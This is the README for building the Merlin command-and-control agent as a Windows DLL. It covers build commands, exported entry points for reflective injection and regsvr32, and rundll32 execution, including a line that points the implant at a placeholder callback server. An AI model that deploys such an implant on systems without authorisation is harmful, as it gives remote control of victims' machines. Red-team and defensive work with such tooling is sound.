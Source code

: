 # Merlin Agent DLL
Merlin can be compiled into a DLL. The `data/bin/dll/merlin.c` file is
a very simple C file with a single function. The `VoidFunc` and `Run`
functions are exported to facilitate executing the DLL.
The `VoidFunc` function name was specifically chosen to facilitate use
with PowerSploit's
[Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
. Using `VoidFunc` requires no modification to run Merlin's DLL with
Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the
[TDM-GCC](http://tdm-gcc.tdragon.net/download) 64bit compiler has proven
 to work well during testing.

If the DLL is compiled on Linux, ensure `MinGW-w64` is installed.

## Creating the DLL
The DLL can be created using the Make file with `make agent-dll`

Alternatively, it can be compiled without Make by following these steps:
* Create the required C archive file:
  * `cd data/bin/dll;go build -buildmode=c-archive ../../../cmd/merlinagentdll/main.go`

* Compile the DLL
  * `gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32`

You will now have DLL file that you can use with whatever method of
execution you would like.

## DLL Entry Points
This table catalogs the exported functions for `merlin.dll` that can be
used as an entry point when executing the DLL.

| Exported Function | Status | Notes
--- | --- | ---
| Run | Working | Main function to execute Merlin agent
| DllInstall | Partial | Used with regsvr32.exe /i . Handling for `/i` not implemented
| DllRegisterServer | Working | Used with regsvr32.exe
| DllUnregisterServer | Working | Used with regsvr32.exe /u
| ReflectiveLoader | Broken | Used with Metasploit's windows/manage/reflective_dll_inject module
| VoidFunc | Working | Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

## Execution with Rundll32.exe
The DLL can be executed on a Windows host using the rundll32.exe
program. An example of using `rundll32` is:

`rundll32 merlin.dll,main` or `rundll32 merlin.dll,Run`

A different Merlin server _can_ be provided when executing the DLL by
suppling the target URL as an argument. An example is:

`rundll32 merlin.dll,Run https://yourdomian.com:443/`

## Invoke-Merlin
The compiled DLL can be inserted into the `Invoke-Merlin.ps1` script.
Check the [README](../powershell/README.MD) in the `powershell` directory for
additional details.

## Limitations
It is important to note that the DLL is currently in the
Proof-of-Concept stage. Because of this, there is no way to provide a
different Merlin server URL when calling `Invoke-Merlin`.
`Invoke-Merlin` will only call back to the Merlin server at
127.0.0.1. because that is the hard coded value. Future work will
facilitate specifying the value at compile time or when executing the
script. Work is in progress to overcome this issue.

One option to overcome this is to hard-code in the target Merlin server
address into the `url` variable of the `cmd/merlinagent/main.go` prior
to creating the C archive file.